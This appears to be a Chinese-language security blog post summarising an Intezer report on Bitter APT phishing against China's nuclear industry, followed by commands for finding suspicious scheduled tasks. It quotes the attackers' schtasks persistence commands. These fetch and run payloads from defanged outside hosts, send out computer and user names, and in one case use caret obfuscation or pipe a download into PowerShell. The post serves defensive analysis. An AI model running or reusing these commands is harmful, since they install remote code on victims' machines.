 ```yaml
---
date: 2023-03-24
author: [SecAdmin]
title: 针对中国核能行业的网络钓鱼活动
description: >
  这篇报告中整个攻击流程非常清晰，具体的攻击手法都给出了示例，在钓鱼邮件的细节处理、还有一些防御规避措施都是值得注意的。最后的持久化都落地在计划任务，所以在防守时，重点关注计划任务中可疑的项目，文章后面我给出了具体排查的命令。
categories: 网络攻防
tags:
  - APT
---
```


> 亮点：这篇报告中整个攻击流程非常清晰，具体的攻击手法都给出了示例，在钓鱼邮件的细节处理、还有一些防御规避措施都是值得注意的。最后的持久化都落地在计划任务，所以在防守时，重点关注计划任务中可疑的项目，文章后面我给出了具体排查的命令。

## 一、背景

被认为来自南亚的黑客组织 Bitter APT 最近正以中国核能机构为攻击目标。安全公司 Intezer 报告，在最近的行动中，Bitter APT 伪装成吉尔吉斯斯坦驻北京大使馆向中国核能公司和该领域的学者发送钓鱼邮件，邀请他们参加吉尔吉斯斯坦大使馆等主办的一个核能会议。邮件签名者是真实存在的，是吉尔吉斯斯坦外交部的一名官员。但邮件附件是恶意的，会执行一系列行动释放恶意负荷。

## 二、攻击技术细节

1. 恶意微软 Excel 文件，每 15 分钟运行一次计划任务，使用 cURL 下载恶意程序。

``` Powershell
"C:\Windows\System32\schtasks.exe" /create /sc MINUTE /mo 15 /TN \Windows\DWM\DWMCORE /TR "cmd /c start /min curl --output %AppData%\dwmcor.exe -O ""https://qwavemediaservice[.]net/hkcu/qt.php/?dt=%computername%-QT-2&ct=QT""" /f
```

2. 恶意微软 Excel 文件，每 20 分钟运行另一个计划任务，执行上一步下载的恶意程序。

``` Powershell
"C:\Windows\System32\schtasks.exe" /create /sc MINUTE /mo 20 /TN \Windows\DWM\DWMCORELIB /TR "%AppData%\dwmcor.exe" /f
```

3. CHM 文件，创建一个计划任务。（通过分解字符串以进行模糊处理）

``` Powershell
"C:\Windows\System32\schtasks.exe" /create /sc minute /mo 15 /tn AdobeUpdater /tr "%coMSPec% /c s^t^a^rt /^m^i^n m^s^i^e^xe^c ^/^i htt^p:/^/mirz^adih^atti^[.]com^/cs^s/t^ry.php?h=%computername%*%username% /^q^n ^/^norestart" /ft
```

4. CHM 文件，创建的另一个计划任务

``` Powershell
,cmd.exe, /c start /min powershell -e xxxx
schtasks /create /tn WinSecurity /sc minute /mo 15 /tr "powershell.exe -WindowStyle Hidden -command curl -o %LOCALAPPDATA%\pic.jpg https://coauthcn[.]com/hbz.php?id=%computername%;timeout 9;more %LOCALAPPDATA%\pic.jpg|powershell;timeout 9;del %LOCALAPPDATA%\pic.jpg" /f
```

## 三、防守要点

上述所有操作，最终都是创建了计划任务进行持久化，所以通过查看计划任务的执行的命令操作，可以看到可疑的执行命令。具体排查命令如下：

1. 使用 PowerShell 分析定位可疑的计划任务
``` Powershell
Get-ScheduledTask | Format-Table -AutoSize
(Get-ScheduledTask -TaskName DWMCORELIB).Actions | Format-List *
(Get-ScheduledTask).Actions | Format-List Execute
```
2. 使用 CMD 分析定位可疑的计划任务
``` Powershell
schtasks.exe /Query /V /FO LIST  （输出格式：TABLE、LIST、CSV。）
taskschd.msc （图形界面）
```

## 四、附加知识点

** %comspec% 是什么？**
打开一个命令行窗口。%comspec% 是一个指向当前命令行外壳的环境变量。通过使用 %comspec%，您不必担心命令行外壳是 cmd.exe 还是 command.exe；%comspec% 会自动选择正确的一个。

** PowerShell Base64 编码 **
``` Powershell
// Base64 编码
$commond ="write-host 'testmsg'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($commond)
$encodeCommand = [Convert]::ToBase64String($bytes)
write-host 'StringToBase64: ' $encodeCommand
// Base64 解码
$DecodeText=[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodeCommand))
write-host 'Base64ToString: ' $DecodeText
```

感兴趣的朋友加我好友，一起学习交流！~

报告原文：https://intezer.com/blog/research/phishing-campaign-targets-nuclear-energy-industry/